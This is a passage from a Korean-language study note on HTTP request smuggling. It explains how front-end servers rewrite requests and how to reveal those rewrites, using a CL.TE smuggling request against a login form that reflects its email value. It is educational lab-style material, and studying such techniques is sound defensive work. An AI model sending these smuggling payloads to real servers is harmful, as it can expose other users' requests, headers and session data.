 위에서 풀었던 문제들과 비슷하게 풀면 됩니다.

### 😎 Revealing front-end request rewriting

많은 어플리케이션들에서 Front-end 서버는 원래 요청이 Back-end로 포워드되기 전에 요청을 수정해서 Back-end에게 전달합니다. 예를 들어, Front-end 서버는 원래 요청에 다음과 같은 일을 할 수 있습니다 :

- TLS 연결을 끊고, 사용된 프로토콜과 암호를 설명하는 헤더를 추가합니다.
- `X-Forwarded-For` 헤더를 추가해서 사용자의 ip를 표시합니다.
- session 토큰을 기반으로 사용자를 확인하고, 사용자를 식별할 수 있는 헤더를 추가합니다.
- 또는 다른 공격에 필요한 민감한 정보를 포함할 수도 있습니다.

만약 smuggle 된 요청이 Front-end 서버가 추가하는 헤더를 포함하지 않으면, Back-end 서버는 요청을 제대로 처리하지 않습니다. 

Front-end 서버가 요청을 어떻게 수정하는지 확인할 수 있는 방법이 있는데, 다음과 같은 단계를 따라야 합니다.

- 요청의 파라미터 중에, 그 값이 응답에 포함되는 POST 요청을 찾아야 합니다.
- 파라미터의 순서를 바꿔서, 응답에 포함되는 파라미터 값이 body에 제일 마지막에 나타나게 해야 합니다.
- 공격자가 확인하고 싶은 Front-end 서버로부터 수정된 요청 앞에 이 요청을 붙입니다.

로그인할 때 `email` 파라미터의 값을 응답에 포함하는 어플리케이션을 생각해봅시다.

``` http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

 이 요청은 다음의 값을 포함하는 응답을 만들어 냅니다 :

``` html
<input id="email" value="wiener@normal-user.net" type="text">
```

그래서 다음과 같은 요청을 사용해서 Front-end 서버가 수정한 요청을 확인할 수 있습니다.

``` http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```
